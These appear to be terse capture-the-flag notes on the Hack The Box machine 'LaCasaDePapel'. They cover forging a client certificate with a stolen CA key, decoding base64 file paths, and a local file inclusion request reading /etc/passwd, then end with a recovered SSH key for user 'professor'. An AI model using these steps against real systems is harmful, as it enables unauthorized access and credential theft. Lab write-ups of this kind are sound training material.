

# 15 - LaCasaDePapel


# DNS name


# HTTPS (Certificate error)


We have the CA key already, we can generate our own client certificate and sign it with this key.


```bash
$ openssl genrsa -out client.key 2048                                              # generates a private key
$ openssl req -new -key client.key -out client.csr                                 # certificate signing request
$ openssl x509 -req -days 365 -in client.csr -signkey ca.key -out client.crt       # signs the certificate
$ openssl pkcs12 -export -in client.crt -inkey  ca.key  -out client.p12            # changes the format from pem to p12 because firefox likes p12
```


Import the certificate on your browser


# HTTPS (Authenticated)


# Season 1


Filenames appear in the link as base64


#  Base64 encoded 01.avi filename

```
GET /file/U0VBU09OLTEvMDEuYXZp HTTP/1.1
Host: 10.10.10.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.131/?path=SEASON-1
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
```

# Decode
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/lacasadepapel/ssl]
└──╼ $ echo U0VBU09OLTEvMDEuYXZp |base64 -d 
SEASON-1/01.avi
```


# Local File Inclusion
`GET /file/../../../../../../etc/passwd` the part after `file/` has to be base64 encoded


# id_rsa


# Key works for professor

